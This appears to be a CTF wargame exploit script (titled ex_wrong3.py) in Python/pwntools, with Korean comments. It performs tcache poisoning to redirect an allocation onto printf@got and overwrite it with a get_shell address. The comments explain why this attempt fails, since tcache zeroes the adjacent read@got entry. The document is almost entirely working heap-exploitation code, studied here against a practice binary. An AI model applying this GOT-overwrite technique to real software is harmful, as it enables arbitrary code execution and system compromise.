 ```
def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
# tcache[0x20] : empty
# chunk : ptr[1]
create(0x20, b'b')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[1]
delete(0)
# tcache[0x20] : ptr[1] -> ptr[0]
# tc_idx = 2
# chunk : ptr[1]
delete(1)


# tcache[0x20] : ptr[1] -> printf@got
# tc_idx = 2
# chunk : ptr[1]
printf_got = elf.got['printf']
modify(1, 0x10, p64(printf_got))


# tcache[0x20] : printf@got
# tc_idx = 1
# chunk : ptr[2]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))
# tcache에서 청크를 찾아서 할당할 때 해당 청크에 `e->key = NULL;`을 해서 `청크 + 0x8`을 `0x00`으로 초기화하기 때문에,
# 여기서 printf@got를 할당할 때, [printf@got + 0x8]에 위치하는 read@got의 값이 NULL(0x00)으로 바뀜
# tcache_dup 워게임에서는 printf@got 뒤에 alarm@got가 존재해서 상관없지만, 여기서는 create 내부에서 read로 데이터에 get_shell을 대입해야 하므로 read@got를 수정하면 안됨

p.interactive()
```

# `ex_wrong3.py`
